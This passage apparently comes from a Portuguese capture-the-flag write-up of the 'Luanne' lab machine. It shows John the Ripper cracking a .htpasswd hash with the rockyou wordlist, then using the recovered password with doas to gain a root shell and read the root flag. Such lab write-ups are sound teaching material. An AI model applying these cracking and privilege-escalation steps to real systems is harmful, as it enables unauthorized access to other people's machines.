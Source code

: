 ```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long ./www/.htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littlebear (webapi_user)
1g 0:00:00:00 DONE (2021-02-20 16:02) 1.333g/s 17216p/s 17216c/s 17216C/s mirame..limewire
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Assim como o `sudo`, o `doas` requer que uma senha seja informada, onde **littlebear** funcionou como esperado, permitindo a obtenção da flag de root:

```bash
doas /bin/sh
Password:
# hostname && id
luanne.htb
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês novamente em breve! :smiley: